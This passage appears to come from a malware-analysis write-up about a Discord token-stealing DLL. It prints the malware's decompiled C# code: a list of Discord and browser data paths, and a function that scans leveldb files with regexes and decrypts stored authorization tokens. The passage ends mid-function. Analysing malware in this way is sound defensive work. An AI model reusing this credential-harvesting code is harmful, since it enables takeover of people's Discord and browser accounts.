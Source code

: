 ```csharp
string[] paths = new string[] {
    "\Roaming\discord",
    "\Roaming\discordptb",
    "\Roaming\discordcanary",
    "\Roaming\discorddevelopment",
    "\Roaming\Opera Software\Opera Stable",
    "\Roaming\Opera Software\Opera GX Stable",
    "\Local\Amigo\User Data",
    "\Local\Torch\User Data",
    "\Local\Kometa\User Data",
    "\Local\Google\Chrome\User Data\Default",
    "\Local\Orbitum\User Data",
    "\Local\CentBrowser\User Data",
    "\Local\7Star\7Star\User Data",
    "\Local\Sputnik\Sputnik\User Data",
    "\Local\Vivaldi\User Data\Default",
    "\Local\Google\Chrome SxS\User Data",
    "\Local\Epic Privacy Browser\User Data",
    "\Local\uCozMedia\Uran\User Data\Default",
    "\Local\Microsoft\Edge\User Data\Default",
    "\Local\Yandex\YandexBrowser\User Data\Default",
    "\Local\Opera Software\Opera Neon\User Data\Default",
    "\Local\BraveSoftware\Brave-Browser\User Data\Default"
};
```

{: file="Token grabber.dll"}

After adding the prefix and suffix a possible path would look like:
`C:\Users\max\AppData\Roaming\discord\Local Storage\leveldb\`. Following that,
the malware checks to see whether it can locate the user's Discord Token within
this directory. Discord saves the data in files with a `.ldb` extension. The
authorization token is contained within this file and always matches a
specified pattern. I was able to locate my token only through the use of the
tool strings, which indicates that the token is not encrypted. The function
below accomplishes exactly what I said. This token grants the attacker complete
access to the user's account.

```csharp
private static List<string> GrabTokens(string leveldb_path, string localstate_path)
{
    List<string> tokens = new List<string>();
    Regex BasicRegex = new Regex(@"[\w-]{24}\.[\w-]{6}\.[\w-]{27}", RegexOptions.Compiled);
    Regex NewRegex = new Regex(@"mfa\.[\w-]{84}", RegexOptions.Compiled);
    Regex EncryptedRegex = new Regex("(dQw4w9WgXcQ:)([^.*\\['(.*)'\\].*$][^\"]*)", RegexOptions.Compiled);

    string[] dbfiles = Directory.GetFiles(leveldb_path, "*.ldb", SearchOption.AllDirectories);
    foreach (string file in dbfiles)
    {
        FileInfo info = new FileInfo(file);
        string contents = File.ReadAllText(info.FullName);

        Match match1 = BasicRegex.Match(contents);
        if (match1.Success) tokens.Add(match1.Value);
        Match match2 = NewRegex.Match(contents);
        if (match2.Success) tokens.Add(match2.Value);

        Match match3 = EncryptedRegex.Match(contents);
        if (match3.Success)
        {
            string token = DecryptToken(Convert.FromBase64String(match3.Value.Split(new[] { "dQw4w9WgXcQ:" }, StringSplitOptions.None)[1]), localstate_path);
            tokens.Add(token);
```